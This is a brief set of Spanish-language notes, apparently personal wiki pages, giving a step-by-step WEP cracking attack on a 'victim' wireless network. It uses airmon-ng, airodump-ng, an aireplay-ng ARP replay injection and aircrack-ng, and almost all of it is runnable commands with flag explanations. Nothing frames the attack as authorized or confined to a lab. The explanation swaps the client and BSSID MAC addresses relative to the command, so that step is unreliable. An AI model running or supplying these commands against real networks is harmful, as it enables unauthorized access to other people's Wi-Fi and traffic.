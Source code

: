 Para realizar una ataque [[ARP Replay Request]] para redes WEB, utilizaremos la herramienta [[Airmon-ng]].

	airmon-ng start wlan1
Vamos a poner la tarjeta de red en modo monitor.

-wlan1 *Tarjeta de red que vamos a poner en modo monitor*

	airodump-ng -c 10 wlan1mon
Escanear el aire en busca de la victima en la interfaz monitor.

-wlan1mon *nombre de la tarjeta de red que aparece al momento de ejecutar ifconfig*
-c 10 *solo escanea en el canal deseado*

	macchanger -s
Obtener mi dirección MAC.

	airodump-ng -w capturas2 -c 1 --bssid C0:B5:D7:F6:71:05 wlan1mon
Obtener el trafico de la red.

-w *capturas ubicación donde se guardaran las capturas de la red.*
-c 1 *especificamos el canal cual esta el access point de la victima.*
 --bssid *dirección mac de la red victima.*
 wlan1mon *interfaz de red con la cual deseamos escáner el trafico de la red victima.*
 
 Resultado de las capturas capturas2-01.cap 

	airplay-ng -3 -h C0:B5:D7:F6:71:05 -b 74:23:44:A9:C7:67 wlan1mon
Realizar ataque ARP Replay Request, hace que atrape los ARP request y enviándolos al access point.

-3 *Indicación de ataque ARP Replay Request.*
-h 74:23:44:A9:C7:67 *MAC del cliente conectado a la red.*
-b C0:B5:D7:F6:71:05 *bssid de la red.*
-wlan1mon *tarjeta de red en modo monitor*

Resultado generamos mas trafico en la red y capturamos mas IVs que viajan por la red, una vez obtenido la mayor cantidad de datos ejecutamos aircrack.


	aircrack-ng capturas2-01.cap 
Esto va a proceder a probar los diferentes IVs que se obtuvieron, aircrack va ir provando los diferentes IVs para al final obtener la clave.







